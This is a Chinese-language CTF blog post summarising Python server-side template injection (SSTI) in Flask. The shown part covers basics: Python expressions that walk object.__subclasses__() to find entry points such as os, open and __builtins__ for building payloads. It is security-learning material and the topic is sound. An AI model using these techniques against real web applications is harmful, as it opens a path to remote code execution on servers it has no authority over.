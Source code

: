 ```yaml
---
title: "Python SSTI 总结笔记"
date: 2022-08-23T17:34:37+08:00
lastmod: 2022-08-23T17:34:37+08:00
draft: false
author: "X1r0z"

tags: ['python','ssti','ctf']
categories: ['web', 'CTF 笔记']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


Python SSTI 的总结笔记, 不定期更新

目前大都是基于 Flask 环境复现, 其它环境后续会填坑

文章里的**所有** payload 都是自己手工复现过的



大部分的 payload 入口点都是 os linecache file open `__builtins__`

不同环境的 payload 并不相同, 主要体现在 `__subclasses__()` 中显示的内容不同

因为 `__subclasses__()` 返回的是继承自 object 的子类, 子类的数量会随着当前命名空间下导入的包/模块的不同而变化

建议大家调试的时候, 使用原生的 python 命令行, 不要用 ipython, 然后根据题目需要 import 对应模块 (flask tornado django 等)

## 基本知识

学会自己查找利用点构造 payload

通过 object 查找所有子类

```python
''.__class__.__mro__[-1].__subclasses__()
''.__class__.__base__.__base__.__subclasses__()
''.__class__.__bases__[0].__bases__[0].__subclasses__()

object.__subclasses__()
```

这里的 `''` 可以替换成 `() {} []`, 但是继承链不一定一样, 需要改一下代码

格式化输出, 方面查看索引位置

```python
for i in enumerate(''.__class__.__mro__[-1].__subclasses__()): print(i)
```
